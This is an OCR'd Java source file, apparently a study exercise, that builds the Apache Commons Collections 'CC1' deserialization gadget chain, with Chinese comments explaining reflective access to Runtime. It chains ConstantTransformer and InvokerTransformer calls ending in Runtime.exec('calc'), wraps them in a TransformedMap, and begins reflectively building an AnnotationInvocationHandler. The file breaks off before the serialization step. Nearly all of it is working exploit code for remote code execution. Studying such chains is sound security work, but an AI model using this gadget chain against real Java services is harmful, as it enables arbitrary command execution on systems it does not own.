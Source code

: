 ```java
package org.example.CC1;




import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception{
        //        //正常获取runtime实例
//        Runtime runtime = Runtime.getRuntime();

//        //反射获取 runtime实例,并执行代码
//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime", null);
//        Runtime runtime = (Runtime) getRuntimeMethod.invoke(null, null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(runtime,"calc");

//        //InvokerTransformer方法获取runtime实例，并执行代码
//        Method  getRuntimeMethod = (Method) new InvokerTransformer("getRuntime", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
//        Runtime runtime = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntimeMethod);
//        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);

        //通过ChainedTransformer实现 InvokerTransformer方法获取runtime实例，并执行代码
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(Runtime.class);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","value");

        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);




        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //创建构造器
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class, Map.class);
```